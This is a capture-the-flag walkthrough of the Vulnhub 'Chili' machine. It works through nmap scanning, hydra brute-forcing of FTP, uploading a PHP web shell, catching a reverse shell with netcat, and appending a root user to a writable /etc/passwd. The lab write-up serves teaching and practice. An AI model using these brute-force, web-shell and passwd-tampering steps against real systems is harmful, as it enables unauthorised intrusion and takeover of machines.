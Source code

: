 ```yaml
---
title: Vulnhub - Chili
description: My writeup on Chili box.
categories:
 - vulnhub
tags: vulnhub ftp hydra etcpasswd
---
```


![](https://mcdn.wallpapersafari.com/medium/21/18/VJEMQh.jpeg)

You can find the machine there > [Chili](https://www.vulnhub.com/entry/chili-1,558/){:target="_blank"}

## Summary

This one was a pretty tricky box that i enjoyed a lot! Is easy but you have to think smart. We start by brute forcing FTP this will give us access to all system files, we search for a writeable directory under `/var/www/html` and we place our shell there. Privilege escalation to root is easy, `/etc/passwd` is writeable. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.13
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 20:15 EEST
Nmap scan report for chili.zte.com.cn (192.168.1.13)
Host is up (0.00012s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
MAC Address: 00:0C:29:14:B9:34 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.03 seconds
$ nmap -p21,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 20:16 EEST
Nmap scan report for chili.zte.com.cn (192.168.1.13)
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Chili
```

Port 80 has nothing interesting, i checked `/robots.txt` i tried directory brute force with gobuster with lot of wordlists but nothing. Anyway i checked the hint that maker provided on vulnhub page `If you ever get stuck, try again with the name of the lab` ahh here we go, let's brute force FTP using username `chili`. (takes some time)

```
$ hydra -l chili -P /usr/share/wordlists/rockyou.txt $ip ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-18 20:20:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.13:21/
[STATUS] 292.00 tries/min, 292 tries in 00:01h, 14344107 to do in 818:44h, 16 active
[STATUS] 282.67 tries/min, 848 tries in 00:03h, 14343551 to do in 845:44h, 16 active
[STATUS] 286.86 tries/min, 2008 tries in 00:07h, 14342391 to do in 833:19h, 16 active
[STATUS] 284.00 tries/min, 4260 tries in 00:15h, 14340139 to do in 841:34h, 16 active
[21][ftp] host: 192.168.1.13   login: chili   password: a1b2c3d4
```

``## Shell as www-data

Perfect, we can login in as `chili:a1b2c3d4`. I enumerated the system but there is no SSH so only 1 solution left if we upload a shell under `/var/www/html` but isn't writable. There is a hidden folder under `/var/www/html` that is writable:

```
$ ftp $ip
Connected to 192.168.1.13.
220 (vsFTPd 3.0.3)
Name (192.168.1.13:root): chili
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /var/www/html
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Sep 08 13:12 .
drwxr-xr-x    3 0        0            4096 Sep 08 11:41 ..
drwxrwxrwx    2 0        0            4096 Sep 08 13:14 .nano <-----
drwxr-xr-x    2 0        0            4096 Sep 08 13:12 .vim
-rw-r--r--    1 0        0           74290 Oct 23  2018 Chile_WEB.jpg
-rw-r--r--    1 0        0             657 Sep 08 11:44 index.html
226 Directory send OK.
ftp> 
```

Let's upload a php web shell under `.nano` and make it executable.

```
ftp> cd .nano
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (38.5256 MB/s)
ftp> chmod 007 shell.php
200 SITE CHMOD command ok.
```

Now let's execute it & get shell.

```
$ curl http://$ip/.nano/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@chili:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as chili

We can use the same FTP password to privesc to user chili now.

```
www-data@chili:/$ su - chili
Password: a1b2c3d4

chili@chili:~$ whoami;id
chili
uid=1000(chili) gid=1000(chili) groups=1000(chili),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## Shell as root

After some enumeration, i found that `/etc/passwd` is writable. Let's simply add a root user in.

```
chili@chili:~$ ls -la /etc/passwd
-rw-r--rw- 1 root root 1450 Sep  8 12:23 /etc/passwd
````

Let's generate a password:

```
$ openssl passwd -6 -salt xyz pwned   
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

Now we can add our user in.

```
chili@chili:~$ echo 'pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash' >> /etc/passwd
chili@chili:~$ su - pwned
Password: pwned

root@chili:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flag.

```
root@chili:~# cat proof.txt
Sun_CSR.Chili.af6d45da1f1181347b9e2139f23c6a5b
```

Lot of fun! :smile:
